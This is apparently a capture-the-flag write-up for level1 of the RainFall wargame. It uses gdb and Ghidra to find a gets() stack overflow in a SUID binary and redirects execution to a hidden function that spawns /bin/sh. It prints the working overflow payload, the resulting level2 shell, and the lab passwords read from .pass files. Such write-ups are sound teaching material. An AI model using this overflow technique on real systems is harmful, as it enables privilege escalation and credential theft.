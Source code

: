 Login as `level1`.
```shell
┌──$ [~/42/2022/rainfall]
└─>  ssh 192.168.1.75 -p 4242 -l level1
level1@192.168.1.75's password: 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
```
A `SUID` executable is located in the home directory.
```shell
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
level1@RainFall:~$
```
```gdb
level1@RainFall:~$ gdb ./level1
(gdb) break main
Breakpoint 1 at 0x8048483
(gdb) run
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048483 in main ()
(gdb) disassemble
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
=> 0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
(gdb)
```

```shell
level1@RainFall:~$ ./level1 <<< $(python -c 'print("+"*75)'); echo $?
32
level1@RainFall:~$ ./level1 <<< $(python -c 'print("+"*76)'); echo $?
Illegal instruction (core dumped)
132
level1@RainFall:~$ ./level1 <<< $(python -c 'print("+"*77)'); echo $?
Segmentation fault (core dumped)
139
```
GDB allows to print the names and data types of all defined functions.
```gdb
level1@RainFall:~$ gdb -q ./level1
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
(gdb) disassemble run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
End of assembler dump.
```

Seems that `run()` makes a system call.
Examine memory address `0x8048584` in string format shows which syscall is made.
```gdb
(gdb) x/s 0x8048584
0x8048584:	 "/bin/sh"
(gdb) print (char*) 0x8048584
$16 = 0x8048584 "/bin/sh"
```

By analyzing binary with Ghidra, its confirmed that `run()` execute a shell.
```ghidra
void run(void)
{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}
```

Print content of `eax` register before function calls
```gdb
(gdb) disassemble run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
End of assembler dump.
(gdb) x/s 0x8048570
0x8048570:	 "Good... Wait what?\n"
(gdb) x/s 0x8048584
0x8048584:	 "/bin/sh"
```

In order to modify the application at runtime, it is necessary to run the program and then stop it again before it finishes cleanly.
So set breakpoint on `main`, then move the program's execution to another part of the program. Specifically, resume execution at the start of `run()`
```gdb
(gdb) break main
Breakpoint 1 at 0x8048483
(gdb) run
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048483 in main ()
(gdb) jump run
Continuing at 0x804844a.
Good... Wait what?
$ whoami
level1
$
```
Upon this, `run()` is successfully ran, but SUID permission of `level2` are lost while running under GDB.

Man of `gets()` mentions BOF vulnerability in SECURITY CONSIDERATIONS section. 
As ASLR isn't enabled it allows to implement BOF. For it, 
Consider memory address of `run()` and allocated space for `str` buffer.

```gdb
level1@RainFall:~$ gdb -q ./level1
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp		# allocate 80 bit to *str
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
(gdb) disassemble run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp		# start address of run() function
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
End of assembler dump.
(gdb)
```
As actual Linux system is little endian, the address of `run()` should be reversed.
```shell
level1@RainFall:~$ lscpu | grep Endian
Byte Order:            Little Endian
```
Exploit and log on to the next level.
```shell
level1@RainFall:~$ (python -c "print('A' * 76 + '\x44\x84\x04\x08')"; cat -) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
